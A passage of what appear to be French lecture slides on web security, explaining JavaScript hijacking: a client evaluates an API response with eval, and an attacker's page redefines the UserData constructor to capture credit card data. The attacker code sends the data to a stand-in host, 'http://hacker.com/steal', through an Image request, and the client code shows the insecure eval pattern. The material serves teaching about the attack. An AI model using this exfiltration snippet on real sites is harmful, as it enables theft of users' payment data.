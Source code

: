 2. Le script contient la defintion de `UserData`
{: start="2"}

~~~
function Userdata() {
  this.creditCard = ...
}
~~~

3. Le client client fait une requête AJAX à l'API
{: start="3"}

~~~
xhr = new XMLHttpRequest();
xhr.open("GET", "http://api.server.com/getUserData?user=1000");
~~~

4. Le client `eval`ue le JavaScript et traite les données
{: start="4"}

~~~
var data = eval(xhr.response());
var card_number = data[5];
~~~

</section>
<section class="compact">

## L'attaquant

1. Crée une page sur un autre server qu'il contrôle ;
2. Inclue le JavaScript suivant (qui remplace la définition de
   `UserData`)

~~~
function UserData() {
    var img = new Image();
    img.src = "http://hacker.com/steal?" 
              + Array.join(",", arguments);
}
~~~

3. Il force le client à faire une requête à l'API
{: start="3"}

~~~
xhr = new XMLHttpRequest();
xhr.open("GET",
	     "http://api.server.com/getUserData?user=1000");
~~~

4. Le browser envoye les données à `http://hacker.com/steal` (à cause
   de l'`Image()`).
{: start="4"}

</section>
<section>
